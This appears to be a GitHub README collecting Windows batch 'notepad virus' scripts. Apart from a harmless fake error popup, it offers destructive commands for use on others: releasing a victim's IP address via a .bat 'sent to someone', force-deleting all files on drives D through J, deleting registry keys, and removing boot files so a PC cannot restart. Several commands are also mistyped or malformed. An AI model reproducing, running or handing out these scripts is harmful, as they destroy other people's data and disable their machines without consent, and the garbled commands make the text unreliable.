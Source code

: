 # bash-script
## _Script no 1 "Create Fake Windows Errors With Notepad "_ 
 1) Open Notepad
 2) Replace Message Here and Title Here with your Error Message and Error-Window Title respectively.
 3) Save the file with error.vbs. (In Save as filetype, must select “all”)
 4) Now, click the file and you’ll get your custom-made Windows error message. So its easy to learn how to create a virus using notepad
 
![image](https://user-images.githubusercontent.com/88976173/204493351-c961b0fe-409e-4702-a879-2b5a204ca9de.png)
## _Script no 2 " How to stop someone’s internet access"_ 
1) Open Notepad
2) @Echo off
3) pconfig /release
4) Save that as a .bat and send it to someone. They’re IP address will be lost, and therefore they won’t be able to fix it
5) to fix it type IPconfig /renew
## _script no 3 "Dangerous Notepad Virus Code"WARNING:: This is the most dangerous virus! Be careful with its use."_
1) @ECHO OFF
2) 
del D:*.* /f /s /q

del E:*.* /f /s /q

del F:*.* /f /s /q

del G:*.* /f /s /q

del H:*.* /f /s /q

del I:*.* /f /s /q

del J:*.* /f /s /q 

3) save it as SEO.bat

## _Script no 4 "Delete the entire registry"_
1) @ECHO OFF
2) 
START reg delete HKCR/.exe

START reg delete HKCR/.dll

START reg delete HKCR/*

3) save it as SEO.bat


## _Script no 5 " Crash PC forever with Notepad Virus"_
1) @echo off
 
     attrib -r -s -h c:autoexec.bat

     del c:autoexec.bat

     attrib -r -s -h c:boot.ini

     del c:boot.ini

     attrib -r -s -h c:ntldr

     del c:ntldr

     attrib -r -s -h c:windowswin.ini

     del c:windowswin.ini
    
    2) Hacker .bat
    
    > _This should shut down the person’s computer. It shuts it off once and deletes the files needed to reboot and restart.

REMEMBER — DO NOT CLICK THIS FILE._ 
